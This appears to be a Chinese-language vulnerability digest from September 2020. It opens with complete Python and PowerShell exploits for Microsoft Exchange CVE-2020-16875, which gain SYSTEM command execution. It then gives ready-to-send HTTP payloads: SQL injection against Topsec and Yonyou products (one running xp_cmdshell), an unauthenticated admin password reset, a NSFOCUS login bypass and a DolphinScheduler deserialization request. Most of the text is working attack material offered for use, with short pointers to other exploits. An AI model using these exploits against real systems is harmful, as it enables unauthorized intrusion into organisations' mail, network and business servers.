[PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
 
Name      AssignedRoles          RoleAssignments                  ManagedBy
----      -------------          ---------------                  ---------
dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}

[PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List

RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
RoleAssignments             : {Data Loss Prevention-dlp users}
Roles                       : {Data Loss Prevention}
DisplayName                 :
ExternalDirectoryObjectId   :
Members                     : {exchangedemo.com/Users/Harry Mull}
SamAccountName              : dlp users
Description                 :
RoleGroupType               : Standard
LinkedGroup                 :
Capabilities                : {}
LinkedPartnerGroupId        :
LinkedPartnerOrganizationId :
Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
IsValid                     : True
ExchangeVersion             : 0.10 (14.0.100.0)
Name                        : dlp users
DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
ObjectClass                 : {top, group}
WhenChanged                 : 6/12/2020 11:29:31 PM
WhenCreated                 : 6/12/2020 11:29:31 PM
WhenChangedUTC              : 6/12/2020 3:29:31 PM
WhenCreatedUTC              : 6/12/2020 3:29:31 PM
OrganizationId              :
Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
OriginatingServer           : DEAD01.exchangedemo.com
ObjectState                 : Changed

# Example:

researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) executed mspaint as SYSTEM!
"""

import re
import sys
import random
import string
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def random_string(str_len=8):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(str_len))

def get_xml(c):
    return """<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c %s";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>""" % c

def trigger_rce(t, s, vs, cmd):
    f = {
        '__VIEWSTATE': (None, vs),
        'ctl00$ResultPanePlaceHolder$senderBtn': (None, "ResultPanePlaceHolder_ButtonsPanel_btnNext"),
        'ctl00$ResultPanePlaceHolder$contentContainer$name': (None, random_string()),
        'ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl': ("dlprce.xml", get_xml(cmd)),
    }
    r = s.post("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, files=f, verify=False)
    assert r.status_code == 200, "(-) failed to trigger rce!"

def leak_viewstate(t, s):
    r = s.get("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, verify=False)
    match = re.search("<input type=\"hidden\" name=\"__VIEWSTATE\" id=\"__VIEWSTATE\" value=\"(.*)\" />", r.text)
    assert match != None, "(-) couldn't leak the __viewstate!"
    return match.group(1)
    
def log_in(t, usr, pwd):
    s = requests.Session()
    d = {
        "destination" : "https://%s/owa" % t,
        "flags" : "",
        "username" : usr,
        "password" : pwd
    }
    s.post("https://%s/owa/auth.owa" % t, data=d, verify=False)
    assert s.cookies.get(name='X-OWA-CANARY') != None, "(-) couldn't leak the csrf canary!"
    return s

def main(t, usr, pwd, cmd):
    s = log_in(t, usr, pwd)
    print("(+) logged in as %s" % usr)
    vs = leak_viewstate(t, s)
    print("(+) found the __viewstate: %s" % vs)
    trigger_rce(t, s, vs, cmd)
    print("(+) executed %s as SYSTEM!" % cmd)

if __name__ == '__main__':
    if len(sys.argv) != 4:
        print("(+) usage: %s <target> <user:pass> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.142 harrym@exchangedemo.com:user123### mspaint" % sys.argv[0])
        sys.exit(-1)
    trgt = sys.argv[1]
    assert ":" in sys.argv[2], "(-) you need a user and password!"
    usr = sys.argv[2].split(":")[0]
    pwd = sys.argv[2].split(":")[1]
    cmd = sys.argv[3]
    main(trgt, usr, pwd, cmd)
```
>
> `https://srcincite.io/pocs/cve-2020-16875.ps1.txt`
>
```angular2
# Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
# Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875
#
# Notes:
#
# The (ab)user needs the "Data Loss Prevention" role assigned
# [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
# 
# Name      AssignedRoles          RoleAssignments                  ManagedBy
# ----      -------------          ---------------                  ---------
# dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
# 
# 
# [PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List
# 
# RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
# ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
# RoleAssignments             : {Data Loss Prevention-dlp users}
# Roles                       : {Data Loss Prevention}
# DisplayName                 :
# ExternalDirectoryObjectId   :
# Members                     : {exchangedemo.com/Users/Harry Mull}
# SamAccountName              : dlp users
# Description                 :
# RoleGroupType               : Standard
# LinkedGroup                 :
# Capabilities                : {}
# LinkedPartnerGroupId        :
# LinkedPartnerOrganizationId :
# Identity                    : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
# IsValid                     : True
# ExchangeVersion             : 0.10 (14.0.100.0)
# Name                        : dlp users
# DistinguishedName           : CN=dlp users,OU=Microsoft Exchange Security Groups,DC=exchangedemo,DC=com
# Guid                        : fa5c8458-8255-4ffd-b128-2a66bf9dbfd6
# ObjectCategory              : exchangedemo.com/Configuration/Schema/Group
# ObjectClass                 : {top, group}
# WhenChanged                 : 6/12/2020 11:29:31 PM
# WhenCreated                 : 6/12/2020 11:29:31 PM
# WhenChangedUTC              : 6/12/2020 3:29:31 PM
# WhenCreatedUTC              : 6/12/2020 3:29:31 PM
# OrganizationId              :
# Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
# OriginatingServer           : DEAD01.exchangedemo.com
# ObjectState                 : Changed
#
# Example:
#
# PS C:\Users\researcher> .\poc.ps1 -server WIN-0K4AOM2JIN6.exchangedemo.com -usr harrym@exchangedemo.com -pwd user123### -cmd mspaint
# (+) targeting WIN-0K4AOM2JIN6.exchangedemo.com with harrym@exchangedemo.com:user123###
# (+) executed mspaint as SYSTEM!
# PS C:\Users\researcher>

param (
    [Parameter(Mandatory=$true)][string]$server,
    [Parameter(Mandatory=$true)][string]$usr,
    [Parameter(Mandatory=$true)][string]$pwd,
    [string]$cmd = "mspaint"
)

Function Get-RandomAlphanumericString {
    [CmdletBinding()]
    Param (
        [int] $length = 8
    )
    Process{
        Write-Output ( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count $length  | % {[char]$_}) )
    }	
}

function Exploit-Exchange {
    Param (
        [string] $server,
        [string] $usr,
        [string] $pwd,
        [string] $cmd
    )
    "(+) targeting $server with ${usr}:$pwd"
    $securepwd = ConvertTo-SecureString $pwd -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($usr, $securepwd)
    $s = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://$server/PowerShell/ -Authentication Kerberos -Credential $creds

    $xml = @"
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ `$i=New-object System.Diagnostics.ProcessStartInfo;`$i.UseShellExecute=`$true;`$i.FileName="cmd";`$i.Arguments="/c $cmd";`$r=New-Object System.Diagnostics.Process;`$r.StartInfo=`$i;`$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>"@

    $n = Get-RandomAlphanumericString
    [Byte[]]$d = [System.Text.Encoding]::UTF8.GetBytes($xml)
    Invoke-Command -Session $s -ScriptBlock {
        New-DlpPolicy -Name $Using:n -TemplateData $Using:d 
    } | Out-Null
    "(+) executed $cmd as SYSTEM!"	
}

Get-PSSession | Remove-PSSession
Exploit-Exchange -server $server -usr $usr -pwd $pwd -cmd $cmd
```
> 利用方式
```angular2
researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) triggered rce as SYSTEM!
```

### 天融信TopApp-LB 负载均衡系统Sql注入漏洞


```angular2
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
 
t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```

### 用友GRP-u8 注入


```angular2
POST /Proxy HTTP/1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: localhost
Content-Length: 341
Connection: Keep-Alive
Cache-Control: no-cache

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

### 绿盟UTS综合威胁探针管理员任意登录

> 逻辑漏洞,利用方式参考`（https://www.hackbug.net/archives/112.html）`
> 1、修改登录数据包 `{"status":false,"mag":""} -> {"status":true,"mag":""}`
> 2、`/webapi/v1/system/accountmanage/account`接口逻辑错误泄漏了管理员的账户信息包括密码（md5）
> 3、再次登录,替换密码上个数据包中md5密码。
> 4、登录成功。




### 天融信数据防泄漏系统越权修改管理员密码
> 无需登录权限,由于修改密码处未校验原密码,且`/?module=auth_user&action=mod_edit_pwd`
接口未授权访问,造成直接修改任意用户密码。
> 默认superman账户uid为1。
```
POST /?module=auth_user&action=mod_edit_pwd 
Cookie: username=superman;

uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```



# 20200916

### Apache DolphinScheduler远程代码执行[CVE-2020-11974]

> 它是一个分布式去中心化，易扩展的可视化DAG(有向无环图)工作流任务调度系统。
> 利用漏洞:需要登录权限, [Apache DolphinScheduler: admin/dolphinscheduler]

> 该漏洞存在于数据源中心未限制添加的jdbc连接参数,从而实现JDBC客户端反序列化
>
> 登录到面板->数据源中心

>
> jdbc连接参数就是主角,这里没有限制任意类型的连接串参数
>

> 将以下数据添加到jdbc连接参数中,就可以直接触发


```angular2
POST /dolphinscheduler/datasources/connect HTTP/1.1

type=MYSQL&name=test&note=&host=127.0.0.1&port=3306&database=test&
principal=&userName=root&password=root&connectType=&
other={"detectCustomCollations":true,"autoDeserialize":true}

```
> 关于MySQL JDBC客户端反序列化漏洞的相关参考：`https://www.anquanke.com/post/id/203086`
>

### Wordpress File-manager任意文件上传
> 参考:`https://www.anquanke.com/post/id/216990`

> 相信大家对Wordpress并不陌生;File-manager插件也是相当火爆前段时间爆出任意文件上传漏洞

>
> 成功上传后文件访问路径`/wordpress/wp-content/plugins/wp-file-manager/lib/files/shell.php`
>

### Pligg CMS远程代码执行[CVE-2020-25287]
> 漏洞非常鸡肋需要登录后台、受影响Pligg2.0.3版本
>


> 模版编辑器功能可以编辑任意文件内容,在文件中加入恶意代码导致代码执行。参考：`https://github.com/jenaye/pligg`


### ZeroLogon接管域控权限漏洞[CVE-2020-1472]
>
> 看到CVSS评分为10就知道他有多香啦。Netlogon协议是Windows中域控制器的SRV资源记录的服务
提供用户和机器在域内网络上的认证与复制数据库进行域控备份，还用于维护域成员与域之间、域与域控之间、域DC与跨域DC之间的关系。
>
> 参考地址`https://github.com/dirkjanm/CVE-2020-1472`



### 0day预警:
> 致远A8文件上传漏洞
> 致远A8反序列化漏洞
> coremail高危漏洞情报[小道消息]
> 深信服VPN 任意用户添加漏洞
> 金蝶EAS存在Fastjson组件安全漏洞
> 用友NC CloudSQL注入漏洞、文件上传


> 乾坤未定，你我皆是黑马